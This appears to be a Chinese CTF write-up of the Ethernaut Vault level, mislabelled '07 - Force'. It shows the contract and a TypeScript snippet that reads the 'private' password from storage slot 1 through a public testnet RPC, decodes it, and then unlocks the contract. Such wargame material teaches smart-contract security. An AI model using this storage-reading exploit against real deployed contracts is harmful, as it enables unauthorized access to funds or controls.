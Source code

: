 # 07 - Force

## 题目
将以下合约解锁
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

## 解题
在这个合约中，只需要直接在链上读这个合约的 storage值即可，typescript 脚本如下：
```solidity

        let provider = new providers.JsonRpcProvider("https://ethereum-holesky.publicnode.com");
        const contractAddress = "";//合约地址

        // 读取存储槽 1 的内容
        const storageAtSlot1 = await provider.getStorageAt(contractAddress, 1);
    
        console.log("Password (bytes32):", storageAtSlot1);
        console.log("Password (UTF-8):", ethers.utils.toUtf8String(storageAtSlot1).replace(/\0/g, ''));
        
        //2293808
        //Password (bytes32): 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
        //Password (UTF-8): A very strong secret password :)
        
```

在浏览器的 console 输入：contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
